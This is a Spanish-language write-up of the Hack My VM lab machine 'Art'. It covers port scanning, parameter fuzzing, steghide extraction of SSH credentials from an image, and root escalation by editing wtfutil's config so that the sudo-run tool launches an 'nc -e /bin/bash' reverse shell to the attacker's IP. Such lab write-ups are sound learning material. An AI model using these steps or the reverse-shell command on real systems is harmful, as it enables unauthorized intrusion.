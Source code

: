 ```yaml
---
layout: post
title: Art
date: 2022-12-02
categories: ["HMV", "Enumeration", "Steganography", "File Edit"]
thumbnail: "assets/images/Art.png"
---
```


# Art [ Hack My VM ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.108 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.108 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página veremos una imagen y un texto (`SEE HMV GALLERY!`), si miramos el código de la página veremos un comentario que nos dice que necesita resolver el problema con el parámetro `tag`.

Si buscamos el archivo `index.php` veremos que es la misma página, por lo que con `GoBuster` buscaré por ficheros `PHP`. Tras unos minutos sin resultados decidí `fuzzear` los parámetros del `index.php`. Para ello utilicé `WFuzz`, una herramienta hecha en `Python`.

```
wfuzz -u "http://192.168.1.108/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos que sólo existe un parámetro, el `tag`. En este caso no hay `LFI`, pero podemos tratar de `fuzzear` a ver si encontramos un archivo con el parámetro `tag`. Para elo utilicé de nuevo `WFuzz`:

```
wfuzz -u "http://192.168.1.108/index.php?tag=FUZZ" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos tres resultados: `0`, `beauty` y `beautiful`. Si miramos `0` y `beautiful` nos muestran lo que ya habíamos visto, pero `beauty` nos muestra una imagen diferente, vamos a ver si oculta algo.

Para ello utilicé una herramienta llamada `StegHide`, la cual nos ayudará a encontrar mensajes ocultos en imágenes.

- `steghide extract -sf dsa32.jpg`

```
Enter passphrase:
wrote extracted data to "yes.txt".
```

Se nos creó un archivo llamado `yes.txt` con lo que la herramienta extrajo de la foto, vamos a ver qué es:

```
lion/shel0vesyou
```

Estupendo! Tenemos las credenciales de `Lion`!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina como `Lion` querremos ser `root`, así que comencé por hacer `sudo -l` para listar lo que podía hacer en la máquina.

```
Matching Defaults entries for lion on art:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

Como vemos podemos ejecutar un binario llamado `wtfutil` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras iniciarlo vemos un link al [`GitHub`](https://github.com/wtfutil/wtf) del creador y, ahí, podemos encontrar la herramienta.

Vemos que cuando la iniciamos se va a la carpeta personal del usuario que la inició y de ahí a una carpeta llamada `.config`. Dentro hay un archivo con el nombre de `config.yml`.

Si miramos el archivo veremos que va por módulos. El módulo `uptime` ejecuta en segundo plano un comando con unos argumentos, vamos a cambiarlos por una Reverse Shell con `NC`, para ello nos pondremos en escucha  en nuestra máquina por el puerto que queramos, en mi caso el `4444`.

- `nc -nlvp 4444`

Bien, ahora que lo tenemos preparado podemos cambiar las líneas `args` y `cmd` de nuestro archivo de configuración (`/home/lion/.config/config.yml`).

```
args: ['-e','/bin/bash','192.168.1.103','4444']
cmd: "nc"
```

Como vimos antes si ejecutamos la herramienta como `root` usará la configuración que tiene `root`, pero no hemos editado ese archivo (no tenemos permisos) pero sí hemos editado nuestro fichero. Para utilizar nuestro fichero tenemos que utilizar el parámetro `--config=` y especificar la configuración editada, en este caso está en `/home/lion/.config/config.yml`.

Bien! Tras iniciar la herramienta como `root` recibimos la Shell! Qué fácil!
